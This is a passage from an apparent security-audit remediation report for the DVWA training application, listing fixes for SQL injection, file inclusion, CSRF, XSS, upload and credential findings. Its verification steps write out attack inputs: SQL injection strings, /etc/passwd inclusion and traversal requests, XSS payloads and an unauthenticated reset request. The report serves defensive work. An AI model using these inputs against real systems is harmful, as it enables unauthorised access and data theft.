  { replacements: { email, password: hash(password) }, type: QueryTypes.SELECT }
)
```

**Verification:** Send X-Forwarded-For: 1') ,(1,1,(select `version()`))-- - and confirm the `bac_log` row stores the literal header and no extra row is inserted.

**Reference:** [CWE-89: Improper Neutralization of Special Elements used in an SQL Command (SQL Injection)](https://cwe.mitre.org/data/definitions/89.html)

---

<a id="m-027"></a>
#### M-027 — Use PDO prepared statements for the login query

**Addresses:**

- 🟠 [F-014](#f-014) — SQL injection in brute-force login query

**Prevents CWEs:**

- [CWE-89](https://cwe.mitre.org/data/definitions/89.html) - SQL Injection

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `vulnerabilities/brute/source/low.php:13`

**How:**

1. Use \$db->prepare with bound :user and :password parameters as in `brute/source/impossible.php`.
2. Return a generic error instead of `mysqli_error` output.

_Generic CWE-89 pattern, not code from this repository:_

```typescript
// Reject string interpolation; use parameter binding.
await sequelize.query(
  'SELECT * FROM Users WHERE email = :email AND password = :password',
  { replacements: { email, password: hash(password) }, type: QueryTypes.SELECT }
)
```

**Verification:** Submit username admin'# with a wrong password and confirm login fails.

**Reference:** [CWE-89: Improper Neutralization of Special Elements used in an SQL Command (SQL Injection)](https://cwe.mitre.org/data/definitions/89.html)

---

<a id="m-028"></a>
#### M-028 — Parameterize the query and validate the session ID

**Addresses:**

- 🟠 [F-015](#f-015) — SQL injection

**Prevents CWEs:**

- [CWE-89](https://cwe.mitre.org/data/definitions/89.html) - SQL Injection

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `vulnerabilities/sqli/source/high.php:11`

**How:**

1. Validate id as an integer at `session-input.php` before storing it.
2. Use a prepared statement in `high.php`.

_Generic CWE-89 pattern, not code from this repository:_

```typescript
// Reject string interpolation; use parameter binding.
await sequelize.query(
  'SELECT * FROM Users WHERE email = :email AND password = :password',
  { replacements: { email, password: hash(password) }, type: QueryTypes.SELECT }
)
```

**Verification:** Storing `id=1`' OR '1'='1 in the session produces no injected rows.

**Reference:** [CWE-89: Improper Neutralization of Special Elements used in an SQL Command (SQL Injection)](https://cwe.mitre.org/data/definitions/89.html)

---

<a id="m-029"></a>
#### M-029 — Use parameterized queries for the user ID lookup

**Addresses:**

- 🟠 [F-016](#f-016) — SQL injection

**Prevents CWEs:**

- [CWE-89](https://cwe.mitre.org/data/definitions/89.html) - SQL Injection

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `vulnerabilities/sqli/source/low.php:11`

**How:**

1. Validate that id is numeric and cast it with intval.
2. Use a PDO prepared statement with `bindParam(PDO::PARAM_INT)`, as `impossible.php` does.

_Generic CWE-89 pattern, not code from this repository:_

```typescript
// Reject string interpolation; use parameter binding.
await sequelize.query(
  'SELECT * FROM Users WHERE email = :email AND password = :password',
  { replacements: { email, password: hash(password) }, type: QueryTypes.SELECT }
)
```

**Verification:** Submitting `id=1`' OR '1'='1 returns no rows and no SQL error.

**Reference:** [CWE-89: Improper Neutralization of Special Elements used in an SQL Command (SQL Injection)](https://cwe.mitre.org/data/definitions/89.html)

---

<a id="m-030"></a>
#### M-030 — Bind the ID as an integer parameter

**Addresses:**

- 🟠 [F-017](#f-017) — SQL injection in unquoted numeric context despite escaping
- 🟠 [F-020](#f-020) — Blind SQL injection in unquoted context despite escaping

**Prevents CWEs:**

- [CWE-89](https://cwe.mitre.org/data/definitions/89.html) - SQL Injection

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `vulnerabilities/sqli/source/medium.php:12`

**How:**

1. Reject non-numeric id values.
2. Use a prepared statement with an integer-bound parameter.
3. Validate id as an integer.
4. Use a prepared statement.

_Generic CWE-89 pattern, not code from this repository:_

```typescript
// Reject string interpolation; use parameter binding.
await sequelize.query(
  'SELECT * FROM Users WHERE email = :email AND password = :password',
  { replacements: { email, password: hash(password) }, type: QueryTypes.SELECT }
)
```

**Verification:** POSTing `id=1` OR 1=1 returns at most one row.

**Reference:** [CWE-89: Improper Neutralization of Special Elements used in an SQL Command (SQL Injection)](https://cwe.mitre.org/data/definitions/89.html)

---

<a id="m-031"></a>
#### M-031 — Parameterize the query and validate the cookie value

**Addresses:**

- 🟠 [F-018](#f-018) — Blind SQL injection

**Prevents CWEs:**

- [CWE-89](https://cwe.mitre.org/data/definitions/89.html) - SQL Injection

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `vulnerabilities/sqli_blind/source/high.php:13`

**How:**

1. Treat the cookie as untrusted input and require an integer.
2. Use a prepared statement.

_Generic CWE-89 pattern, not code from this repository:_

```typescript
// Reject string interpolation; use parameter binding.
await sequelize.query(
  'SELECT * FROM Users WHERE email = :email AND password = :password',
  { replacements: { email, password: hash(password) }, type: QueryTypes.SELECT }
)
```

**Verification:** Cookie `id=1`' AND `SLEEP(10)`-- - causes no 10-second delay.

**Reference:** [CWE-89: Improper Neutralization of Special Elements used in an SQL Command (SQL Injection)](https://cwe.mitre.org/data/definitions/89.html)

---

<a id="m-032"></a>
#### M-032 — Use prepared statements for the existence check

**Addresses:**

- 🟠 [F-019](#f-019) — Blind SQL injection

**Prevents CWEs:**

- [CWE-89](https://cwe.mitre.org/data/definitions/89.html) - SQL Injection

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `vulnerabilities/sqli_blind/source/low.php:13`

**How:**

1. Cast id to an integer after an `is_numeric` check.
2. Use a prepared statement with a bound parameter.

_Generic CWE-89 pattern, not code from this repository:_

```typescript
// Reject string interpolation; use parameter binding.
await sequelize.query(
  'SELECT * FROM Users WHERE email = :email AND password = :password',
  { replacements: { email, password: hash(password) }, type: QueryTypes.SELECT }
)
```

**Verification:** ?`id=1`' AND `SLEEP(5)`-- - responds immediately with 'MISSING'.

**Reference:** [CWE-89: Improper Neutralization of Special Elements used in an SQL Command (SQL Injection)](https://cwe.mitre.org/data/definitions/89.html)

---

<a id="m-033"></a>
#### M-033 — Allowlist exact include filenames

**Addresses:**

- 🟠 [F-021](#f-021) — Wildcard filename check allows file scheme inclusion
- 🟠 [F-022](#f-022) — Non-recursive traversal filter bypass in file inclusion

**Prevents CWEs:**

- [CWE-98](https://cwe.mitre.org/data/definitions/98.html)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `vulnerabilities/fi/source/high.php:7`

**How:**

1. Accept only the exact names `file1.php`, `file2.php`, `file3.php` and `include.php`, using `in_array` with strict comparison.
2. Resolve the path with realpath and confirm it stays inside the module directory.
3. Map the page parameter to a fixed array of allowed filenames.
4. Disable `allow_url_include`.

**Verification:** Request ?page=`file:///etc/passwd` and confirm 'File not found'.

**Reference:** [CWE-98](https://cwe.mitre.org/data/definitions/98.html)

---

<a id="m-034"></a>
#### M-034 — Replace Referer substring check with CSRF tokens

**Addresses:**

- 🟠 [F-023](#f-023) — CSRF Referer check bypass

**Prevents CWEs:**

- [CWE-352](https://cwe.mitre.org/data/definitions/352.html) - Cross-Site Request Forgery (CSRF)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `vulnerabilities/csrf/source/medium.php:5`

**How:**

1. Replace the Referer check with a synchronizer token validated through `checkToken`.
2. If origin checks are kept, parse the `Origin` header and compare the exact host.

_Generic CWE-352 pattern, not code from this repository:_

```typescript
// Use double-submit cookie / SameSite=Strict for state-changing routes.
app.use(csrf({ cookie: { sameSite: 'strict', httpOnly: true, secure: true } }))
```

**Verification:** Send a request with Referer `http://attacker/?x=SERVER_NAME` and no token, then confirm it is rejected.

**Reference:** [CWE-352: Cross-Site Request Forgery (CSRF)](https://cwe.mitre.org/data/definitions/352.html)

---

<a id="m-035"></a>
#### M-035 — Remove secret-echoing workflow and rotate exposed secrets

**Addresses:**

- 🟠 [F-027](#f-027) — All repository secrets base64-encoded into public workflow

**Weaknesses addressed:** [W-009](#w-009)

**Prevents CWEs:**

- [CWE-532](https://cwe.mitre.org/data/definitions/532.html)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `.github/workflows/vulnerable.yml:54`

**How:**

1. Delete `.github/workflows/vulnerable.yml`, or remove the `get_secrets` job.
2. Rotate every repository and organisation secret that was available to the workflow, including `DVWA_SECRET_KEY`.
3. Delete historical workflow run logs that contain the base64-encoded output.
4. Never pass `toJSON(secrets)` into a step; reference only the specific secret a step needs.

**Verification:** Run `grep -rn 'toJSON(secrets)\|base64' .github/workflows/` and confirm no hits. Confirm that previously exposed secret values no longer authenticate.

**Reference:** [CWE-532: Insertion of Sensitive Information into Log File](https://cwe.mitre.org/data/definitions/532.html)

---

<a id="m-036"></a>
#### M-036 — Allowlist module IDs and security levels

**Addresses:**

- 🟠 [F-029](#f-029) — Path traversal in source viewer reads

**Weaknesses addressed:** [W-002](#w-002)

**Prevents CWEs:**

- [CWE-22](https://cwe.mitre.org/data/definitions/22.html)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `vulnerabilities/view_source.php:63`

**How:**

1. Reject the request unless id is one of the known module names in the switch, and fail closed on the default branch.
2. Reject security unless it is one of low, medium, high or impossible.
3. Optionally resolve the path with realpath and check that it stays under the vulnerabilities directory.

**Verification:** With a logged-in session, request `view_source.php`?`id=fi`&`security=`../../..`/config/config.inc` and `view_source.php`?`id=sqli`&`security=`../../..`/config/config.inc`. Confirm each returns Not found and no file content.

**Reference:** [CWE-22: Path Traversal](https://cwe.mitre.org/data/definitions/22.html)

---

<a id="m-037"></a>
#### M-037 — Retire v1 serializer and require auth on user API

**Addresses:**

- 🟠 [F-030](#f-030) — Unauthenticated legacy user API version exposes password hashes

**Prevents CWEs:**

- [CWE-522](https://cwe.mitre.org/data/definitions/522.html)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `vulnerabilities/api/src/User.php:45`

**How:**

1. Remove the password field from every User::`toArray` branch and reject unsupported API versions with 404.
2. Add a `checkToken()` guard to every UserController handler, as OrderController does.
3. Store passwords with `password_hash()` instead of unsalted `SHA-256`.

**Verification:** curl `http://host/vulnerabilities/api/v1/user/` returns 401 or 404, and no response body contains a 'password' key.

**Reference:** [CWE-522: Insufficiently Protected Credentials](https://cwe.mitre.org/data/definitions/522.html)

---

<a id="m-038"></a>
#### M-038 — Remove test script and rotate DB credentials

**Addresses:**

- 🟠 [F-031](#f-031) — Hardcoded database credentials in test script

**Weaknesses addressed:** [W-004](#w-004)

**Prevents CWEs:**

- [CWE-798](https://cwe.mitre.org/data/definitions/798.html) - Use of Hard-coded Credentials

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `vulnerabilities/sqli/test.php:4`

**How:**

1. Delete `vulnerabilities/sqli/test.php` from the deployable tree.
2. Rotate the dvwa database password, and load credentials from configuration that is not committed.

_Generic CWE-798 pattern, not code from this repository:_

```typescript
// Read secrets from env / vault, not the source.
const hmacKey = process.env.ORDER_HMAC_KEY
if (!hmacKey) throw new Error('ORDER_HMAC_KEY not set')
const sig = createHmac('sha256', hmacKey).update(payload).digest('hex')
```

**Verification:** Requesting `/vulnerabilities/sqli/test.php` returns 404, and a secret scan finds no password literal.

**Reference:** [CWE-798: Use of Hard-coded Credentials](https://cwe.mitre.org/data/definitions/798.html)

---

<a id="m-039"></a>
#### M-039 — Validate and re-encode uploads with random names

**Addresses:**

- 🟠 [F-033](#f-033) — Unrestricted file upload into web-served directory keeps client name

**Weaknesses addressed:** [W-011](#w-011)

**Prevents CWEs:**

- [CWE-434](https://cwe.mitre.org/data/definitions/434.html) - Unrestricted Upload of File with Dangerous Type

**Priority:** P2 - This Sprint · **Effort:** Medium · **File:** `vulnerabilities/upload/source/low.php:9`

**How:**

1. Allow only image extensions such as jpg and png, verify the content with getimagesize, and re-encode the image, as `impossible.php` does.
2. Generate a random server-side file name with a fixed safe extension.
3. Store uploads outside the web root, or disable script execution in the upload directory.

_Generic CWE-434 pattern, not code from this repository:_

```typescript
// Validate MIME, extension, and magic bytes; cap size.
const ALLOWED = new Set(['image/png', 'image/jpeg'])
if (!ALLOWED.has(file.mimetype)) throw new Error('mime not allowed')
if (file.size > 2 * 1024 * 1024) throw new Error('too large')
```

**Verification:** Upload `shell.php` or `test.php` containing <?php echo 1; ?>. Confirm it is rejected, or that no .php file appears in hackable/uploads and requesting it there does not execute PHP.

**Reference:** [CWE-434: Unrestricted Upload of File with Dangerous Type](https://cwe.mitre.org/data/definitions/434.html)

---

<a id="m-040"></a>
#### M-040 — Validate uploads server-side by extension and content

**Addresses:**

- 🟠 [F-034](#f-034) — Upload filter trusts client-supplied MIME type

**Weaknesses addressed:** [W-012](#w-012)

**Prevents CWEs:**

- [CWE-434](https://cwe.mitre.org/data/definitions/434.html) - Unrestricted Upload of File with Dangerous Type

**Priority:** P2 - This Sprint · **Effort:** Medium · **File:** `vulnerabilities/upload/source/medium.php:14`

**How:**

1. Ignore the \$_FILES type value and use an extension allowlist plus server-side verification of the actual image content.
2. Re-encode accepted images.
3. Rename stored files to random names with a fixed image extension.
4. Disable script execution in the upload directory.

_Generic CWE-434 pattern, not code from this repository:_

```typescript
// Validate MIME, extension, and magic bytes; cap size.
const ALLOWED = new Set(['image/png', 'image/jpeg'])
if (!ALLOWED.has(file.mimetype)) throw new Error('mime not allowed')
if (file.size > 2 * 1024 * 1024) throw new Error('too large')
```

**Verification:** Upload `shell.php` with `Content-Type` image/jpeg and again with image/png. Confirm each is rejected, or is not stored as an executable .php file.

**Reference:** [CWE-434: Unrestricted Upload of File with Dangerous Type](https://cwe.mitre.org/data/definitions/434.html)

---

<a id="m-041"></a>
#### M-041 — Switch tokens to AES-GCM with random IVs

**Addresses:**

- 🟠 [F-035](#f-035) — Unauthenticated CBC token with padding oracle

**Prevents CWEs:**

- [CWE-649](https://cwe.mitre.org/data/definitions/649.html)

**Priority:** P2 - This Sprint · **Effort:** Medium · **File:** `vulnerabilities/cryptography/source/token_library_high.php:101`

**How:**

1. Replace CBC with AEAD (AES-256-GCM) or encrypt-then-MAC, and verify before parsing.
2. Return one generic error for every token failure, and generate a random IV for each token.

**Verification:** Run `oracle_attack.php` `--local` against the fixed library and confirm the attack fails.

**Reference:** [CWE-649](https://cwe.mitre.org/data/definitions/649.html)

---

<a id="m-042"></a>
#### M-042 — Require authentication on every exposed endpoint

**Addresses:**

- 🟠 [F-036](#f-036) — Unauthenticated database reset

**Prevents CWEs:**

- [CWE-306](https://cwe.mitre.org/data/definitions/306.html)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `setup.php:6`

**How:**

1. Call `dvwaPageStartup(array('authenticated'))` in `setup.php` once the database has been initialised, or gate the POST path on an admin role check.
2. Allow unauthenticated setup only while the users table does not yet exist.

**Verification:** After setup, run: curl -c j -b j `http://127.0.0.1:4280/setup.php`, then POST `create_db` with the scraped token and no login. Expect a redirect to `login.php` and no database reset.

---

### P3 — Next Quarter

<a id="m-001"></a>
#### M-001 — Manual review: verify Broken MD5/SHA-1 Hash Primitive Usage at index.php:43

**Addresses:**

- 🟡 [F-003](#f-003) — Broken MD5/SHA-1 Hash Primitive Usage

**Weaknesses addressed:** [W-005](#w-005)

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `vulnerabilities/javascript/index.php:43`

**How:** The evidence-verifier sample could not confirm or refute the claim from the cited snippet alone. Have a developer familiar with this code path read ±20 lines around the cited location (`vulnerabilities/javascript/index.php:43`) and decide whether to keep, downgrade, or remove this finding.

1. Use `password_hash()` (bcrypt/argon2) for credentials and `hash('sha256', …)` for integrity.
2. Add a regression test (or CI check) that fails on the vulnerable pattern and passes once the fix is in place.

**Verification:** Re-run the CRYPTO-PHP-001 scanner check; it reports no match at `vulnerabilities/javascript/index.php:43`, and the regression test passes.

---

<a id="m-002"></a>
#### M-002 — Manual review: verify Stored guestbook name and message persisted without HTML encoding

**Addresses:**

- 🟠 [F-011](#f-011) — Stored guestbook name and message persisted without HTML encoding

**Weaknesses addressed:** [W-003](#w-003)

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `vulnerabilities/xss_s/source/low.php:16`

**How:** The evidence-verifier sample could not confirm or refute the claim from the cited snippet alone. Have a developer familiar with this code path read ±20 lines around the cited location (`vulnerabilities/xss_s/source/low.php:16`) and decide whether to keep, downgrade, or remove this finding.

1. Encode name and comment with `htmlspecialchars(ENT_QUOTES, 'UTF-8')` when `dvwaGuestbook()` renders rows.
2. Drop blocklist filters on input; store raw text via prepared statements as in `impossible.php`.
3. Enforce server-side length limits on `txtName` and `mtxMessage`.

_Generic CWE-79 pattern, not code from this repository:_

```typescript
// Never call bypassSecurityTrust*; let Angular sanitize.
// template:  <div [innerHTML]="product.description"></div>
// component: no DomSanitizer.bypassSecurityTrustHtml(...)
this.product.description = raw  // bound directly; Angular escapes
```

**Verification:** Post `txtName`=`` at each level, reload the page, and assert the rendered HTML contains &lt;img and no script runs.

**Reference:** [CWE-79: Improper Neutralization of Input During Web Page Generation (XSS)](https://cwe.mitre.org/data/definitions/79.html)

---

<a id="m-003"></a>
#### M-003 — Manual review: verify Wildcard filename check allows file scheme inclusion

**Addresses:**

- 🟠 [F-021](#f-021) — Wildcard filename check allows file scheme inclusion

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `vulnerabilities/fi/source/high.php:7`

**How:** The evidence-verifier sample could not confirm or refute the claim from the cited snippet alone. Have a developer familiar with this code path read ±20 lines around the cited location (`vulnerabilities/fi/source/high.php:7`) and decide whether to keep, downgrade, or remove this finding.

1. Accept only the exact names `file1.php`, `file2.php`, `file3.php` and `include.php`, using `in_array` with strict comparison.
2. Resolve the path with realpath and confirm it stays inside the module directory.

**Verification:** Request ?page=`file:///etc/passwd` and confirm 'File not found'.

**Reference:** [CWE-98](https://cwe.mitre.org/data/definitions/98.html)

---

<a id="m-004"></a>
#### M-004 — Manual review: verify Non-recursive traversal filter bypass in file inclusion

**Addresses:**

- 🟠 [F-022](#f-022) — Non-recursive traversal filter bypass in file inclusion

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `vulnerabilities/fi/source/medium.php:8`

**How:** The evidence-verifier sample could not confirm or refute the claim from the cited snippet alone. Have a developer familiar with this code path read ±20 lines around the cited location (`vulnerabilities/fi/source/medium.php:8`) and decide whether to keep, downgrade, or remove this finding.

1. Map the page parameter to a fixed array of allowed filenames.
2. Disable `allow_url_include`.

**Verification:** Request ?`page=`....//....//etc/passwd and confirm an error with no file content.

**Reference:** [CWE-98](https://cwe.mitre.org/data/definitions/98.html)

---

<a id="m-005"></a>
#### M-005 — Manual review: verify Predictable session identifier generation in weak_id module

**Addresses:**

- 🟡 [F-040](#f-040) — Predictable session identifier generation in weak_id module

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `vulnerabilities/weak_id/source/low.php:10`

**How:** The evidence-verifier sample could not confirm or refute the claim from the cited snippet alone. Have a developer familiar with this code path read ±20 lines around the cited location (`vulnerabilities/weak_id/source/low.php:10`) and decide whether to keep, downgrade, or remove this finding.

1. Replace counter, `time()` and `md5(counter)` cookie values with `bin2hex(random_bytes(32))` as in `impossible.php`.
2. Set Secure, HttpOnly and `SameSite` attributes on the `dvwaSession` cookie at all levels.

**Verification:** Issue 1000 POST requests and confirm the `dvwaSession` values show no sequential or time-derived pattern and carry HttpOnly.

**Reference:** [CWE-341](https://cwe.mitre.org/data/definitions/341.html)

---

<a id="m-006"></a>
#### M-006 — Manual review: verify Request URI reflected unescaped into inline JavaScript

**Addresses:**

- 🟡 [F-053](#f-053) — Request URI reflected unescaped into inline JavaScript

**Weaknesses addressed:** [W-003](#w-003)

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `vulnerabilities/api/source/low.php:47`

**How:** The evidence-verifier sample could not confirm or refute the claim from the cited snippet alone. Have a developer familiar with this code path read ±20 lines around the cited location (`vulnerabilities/api/source/low.php:47`) and decide whether to keep, downgrade, or remove this finding.

1. Compute the API base path server-side from a fixed configuration value rather than from `REQUEST_URI`.
2. If a request value must be embedded, emit it with `json_encode(..., JSON_HEX_TAG|JSON_HEX_APOS|JSON_HEX_QUOT)`.

_Generic CWE-79 pattern, not code from this repository:_

```typescript
// Never call bypassSecurityTrust*; let Angular sanitize.
// template:  <div [innerHTML]="product.description"></div>
// component: no DomSanitizer.bypassSecurityTrustHtml(...)
this.product.description = raw  // bound directly; Angular escapes
```

**Verification:** Request `/vulnerabilities/api/?x=`';`alert(1)`;// and confirm the generated script contains an escaped value.

**Reference:** [CWE-79: Improper Neutralization of Input During Web Page Generation (XSS)](https://cwe.mitre.org/data/definitions/79.html)

---

<a id="m-007"></a>
#### M-007 — Manual review: verify Cross-site scripting via reflected session ID

**Addresses:**

- 🟡 [F-060](#f-060) — Cross-site scripting

**Weaknesses addressed:** [W-003](#w-003)

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `vulnerabilities/sqli/session-input.php:14`

**How:** The evidence-verifier sample could not confirm or refute the claim from the cited snippet alone. Have a developer familiar with this code path read ±20 lines around the cited location (`vulnerabilities/sqli/session-input.php:14`) and decide whether to keep, downgrade, or remove this finding.

1. Wrap `$_SESSION['id']` in `htmlspecialchars(..., ENT_QUOTES)` when building the page body.
2. Add a CSRF token to the session-input form.

_Generic CWE-79 pattern, not code from this repository:_

```typescript
// Never call bypassSecurityTrust*; let Angular sanitize.
// template:  <div [innerHTML]="product.description"></div>
// component: no DomSanitizer.bypassSecurityTrustHtml(...)
this.product.description = raw  // bound directly; Angular escapes
```

**Verification:** POSTing id=`<script>``alert(1)``</script>` renders as literal text.

**Reference:** [CWE-79: Improper Neutralization of Input During Web Page Generation (XSS)](https://cwe.mitre.org/data/definitions/79.html)

---

<a id="m-008"></a>
#### M-008 — Manual review: verify Reflected XSS via id in source viewer heading

**Addresses:**

- 🟡 [F-061](#f-061) — Reflected XSS

**Weaknesses addressed:** [W-003](#w-003)

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `vulnerabilities/view_source.php:85`

**How:** The evidence-verifier sample could not confirm or refute the claim from the cited snippet alone. Have a developer familiar with this code path read ±20 lines around the cited location (`vulnerabilities/view_source.php:85`) and decide whether to keep, downgrade, or remove this finding.

1. Allowlist id against known module names.
2. Apply htmlspecialchars to \$id and \$security when building the HTML and the onclick attribute.

_Generic CWE-79 pattern, not code from this repository:_

```typescript
// Never call bypassSecurityTrust*; let Angular sanitize.
// template:  <div [innerHTML]="product.description"></div>
// component: no DomSanitizer.bypassSecurityTrustHtml(...)
this.product.description = raw  // bound directly; Angular escapes
```

**Verification:** id=`<script>``alert(1)``</script>` renders as escaped text or returns Not found.

**Reference:** [CWE-79: Improper Neutralization of Input During Web Page Generation (XSS)](https://cwe.mitre.org/data/definitions/79.html)

---

<a id="m-009"></a>
#### M-009 — Manual review: verify Configuration file copied to backup alongside web content

**Addresses:**

- 🟡 [F-068](#f-068) — Configuration file copied to backup alongside web content

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `dvwa/includes/DBMS/MySQL.php:138`

**How:** The evidence-verifier sample could not confirm or refute the claim from the cited snippet alone. Have a developer familiar with this code path read ±20 lines around the cited location (`dvwa/includes/DBMS/MySQL.php:138`) and decide whether to keep, downgrade, or remove this finding.

1. Remove the `copy()` at `MySQL.php:138`.
2. Deny HTTP access to the config/ directory.

**Verification:** After setup, run: curl `http://127.0.0.1:4280/config/config.inc.php.bak`. Expect a 404 or 403.

---

<a id="m-010"></a>
#### M-010 — Manual review: verify User keeps using a withdrawn right

**Addresses:**

- 🟡 [F-096](#f-096) — User keeps

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `vulnerabilities/cryptography/source/check_token_high.php:15`

**How:** The architect review left the assessment open: Check_token is defined in `token_library_high.php`, which was not in the served slices, so token expiry and revocation behavior is unproven. The revocation-delay policy is also undeclared. The evidence-verifier sample could not confirm or refute the claim from the cited snippet alone. Have a developer familiar with this code path read ±20 lines around the cited location (`vulnerabilities/cryptography/source/check_token_high.php:15`) and decide whether to keep, downgrade, or remove this finding. Confirm the finding before implementing its fix.

1. Re-check current roles and account status when a session or token is used
2. Add a regression test (or CI check) that fails on the vulnerable pattern and passes once the fix is in place.

**Verification:** Re-run the security scan; the CWE-613 finding at `vulnerabilities/cryptography/source/check_token_high.php:15` is cleared, and the regression test passes.

---

<a id="m-011"></a>
#### M-011 — Manual review: verify Unauthenticated or low-privilege caller uses user-management API…

**Addresses:**

- 🟡 [F-097](#f-097) — Unauthenticated or low-privilege caller uses user-management

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `vulnerabilities/api/public/index.php:71`

**How:** The evidence-verifier sample could not confirm or refute the claim from the cited snippet alone. Have a developer familiar with this code path read ±20 lines around the cited location (`vulnerabilities/api/public/index.php:71`) and decide whether to keep, downgrade, or remove this finding.

1. Enforce role checks on user API operations
2. Add a regression test (or CI check) that fails on the vulnerable pattern and passes once the fix is in place.

_Generic CWE-862 pattern, not code from this repository:_

```typescript
// Add server-side role check on every admin route.
router.use('/admin/*', (req, res, next) => {
  if (req.user?.role !== 'admin') return res.status(403).end()
  next()
})
```

**Verification:** Re-run the security scan; the CWE-862 finding at `vulnerabilities/api/public/index.php:71` is cleared, and the regression test passes.

---

<a id="m-013"></a>
#### M-013 — Drop unnecessary privileges in build and runtime

**Addresses:**

- 🟡 [F-069](#f-069) — Container Runs as Root

**Prevents CWEs:**

- [CWE-250](https://cwe.mitre.org/data/definitions/250.html)

**Priority:** P3 - Next Quarter · **Effort:** Low · **File:** `Dockerfile:1`

**How:** Add USER `<non-root-uid>` - Containers running as root expand container-escape blast radius.

1. Add USER `<non-root-uid>`
2. Add a regression test (or CI check) that fails on the vulnerable pattern and passes once the fix is in place.

**Verification:** Re-run the IAC-002 scanner check; it reports no match at `Dockerfile:1`, and the regression test passes.

---

<a id="m-014"></a>
#### M-014 — Apply least-privilege permissions

**Addresses:**

- 🟡 [F-071](#f-071) — Missing Workflow Permissions Block

**Prevents CWEs:**

- [CWE-732](https://cwe.mitre.org/data/definitions/732.html)

**Priority:** P3 - Next Quarter · **Effort:** Low · **File:** `.github/workflows/codeql-analysis.yml:20`

**How:** Add `permissions: { contents: read }` at workflow root; elevate per-job only where needed - Without an explicit permissions block at workflow or job level, the job inherits the repository default (commonly write-all) for `GITHUB_TOKEN` - any compromised step can push code, create releases, or approve PRs.

1. Add `permissions: { contents: read }` at workflow root; elevate per-job only where needed
2. Add a regression test (or CI check) that fails on the vulnerable pattern and passes once the fix is in place.

**Verification:** Re-run the IAC-010 scanner check; it reports no match at `.github/workflows/codeql-analysis.yml:20`, and the regression test passes.

---

<a id="m-017"></a>
#### M-017 — Use modern cryptographic hash and KDF algorithms

**Addresses:**

- 🟡 [F-003](#f-003) — Broken MD5/SHA-1 Hash Primitive Usage
- 🟡 [F-066](#f-066) — Broken hash primitive

**Weaknesses addressed:** [W-005](#w-005)

**Prevents CWEs:**

- [CWE-328](https://cwe.mitre.org/data/definitions/328.html)

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `vulnerabilities/javascript/index.php:43`

**How:** Use `password_hash()` (bcrypt/argon2) for credentials and `hash('sha256', …)` for integrity.

1. Add a regression test (or CI check) that fails on the vulnerable pattern and passes once the fix is in place.

**Verification:** Re-run the CRYPTO-PHP-001 scanner check; it reports no match at `vulnerabilities/javascript/index.php:43`, and the regression test passes.

---

<a id="m-043"></a>
#### M-043 — Move MariaDB passwords into generated Docker secrets

**Addresses:**

- 🟡 [F-037](#f-037) — Hardcoded weak MariaDB root and application credentials

**Weaknesses addressed:** [W-004](#w-004)

**Prevents CWEs:**

- [CWE-798](https://cwe.mitre.org/data/definitions/798.html) - Use of Hard-coded Credentials

**Priority:** P3 - Next Quarter · **Effort:** Low · **File:** `compose.yml:31`

**How:**

1. Replace `MYSQL_ROOT_PASSWORD` with `MYSQL_ROOT_PASSWORD_FILE` or `MARIADB_RANDOM_ROOT_PASSWORD`=yes, and supply the value through Docker secrets.
2. Replace the `MYSQL_PASSWORD` literal with `MYSQL_PASSWORD_FILE` that reads a generated secret, and pass the same secret to the dvwa container as `DB_PASSWORD`.
3. Rotate any deployed instances that used the published defaults.

_Generic CWE-798 pattern, not code from this repository:_

```typescript
// Read secrets from env / vault, not the source.
const hmacKey = process.env.ORDER_HMAC_KEY
if (!hmacKey) throw new Error('ORDER_HMAC_KEY not set')
const sig = createHmac('sha256', hmacKey).update(payload).digest('hex')
```

**Verification:** Run `grep -nE 'MYSQL_(ROOT_)?PASSWORD=' compose.yml` and expect no matches. Then run `docker compose exec db mariadb -uroot -pdvwa -e 'select 1'` and confirm that authentication fails.

**Reference:** [CWE-798: Use of Hard-coded Credentials](https://cwe.mitre.org/data/definitions/798.html)

---

<a id="m-044"></a>
#### M-044 — Rate-limit and lock out repeated authentication attempts

**Addresses:**

- 🟡 [F-038](#f-038) — Login allows unlimited password guessing without lockout

**Prevents CWEs:**

- [CWE-307](https://cwe.mitre.org/data/definitions/307.html) - Improper Restriction of Excessive Authentication Attempts

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `vulnerabilities/brute/source/low.php:3`

**How:**

1. Track failed attempts per account and per source IP and enforce progressive delays or temporary blocks.
2. Accept credentials via POST only and add CAPTCHA after repeated failures.

_Generic CWE-307 pattern, not code from this repository:_

```typescript
// Per-IP + per-account rate limiting on auth endpoints.
import rateLimit from 'express-rate-limit'
app.use('/rest/user/login',
  rateLimit({ windowMs: 60_000, max: 5, standardHeaders: true }))
```

**Verification:** Script 50 wrong-password requests and confirm later requests are throttled or blocked.

**Reference:** [CWE-307: Improper Restriction of Excessive Authentication Attempts](https://cwe.mitre.org/data/definitions/307.html)

---

<a id="m-045"></a>
#### M-045 — Load token key from secret storage and rotate

**Addresses:**

- 🟡 [F-039](#f-039) — Hardcoded token encryption key allows bearer token forgery

**Weaknesses addressed:** [W-004](#w-004)

**Prevents CWEs:**

- [CWE-321](https://cwe.mitre.org/data/definitions/321.html) - Use of Hard-coded Cryptographic Key

